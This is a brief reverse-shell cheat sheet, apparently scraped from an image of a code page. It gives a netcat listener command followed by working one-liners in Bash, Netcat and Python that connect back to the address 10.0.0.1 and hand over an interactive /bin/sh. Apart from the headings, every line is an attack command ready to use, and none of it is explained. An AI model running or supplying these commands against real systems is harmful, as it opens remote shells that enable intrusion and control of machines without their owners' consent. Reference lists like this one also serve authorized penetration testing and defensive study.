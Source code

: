 # Start to listen on host machine
nc -nlvp 8080

## Bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

## Netcat
nc -e /bin/sh 10.0.0.1 8080

## Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'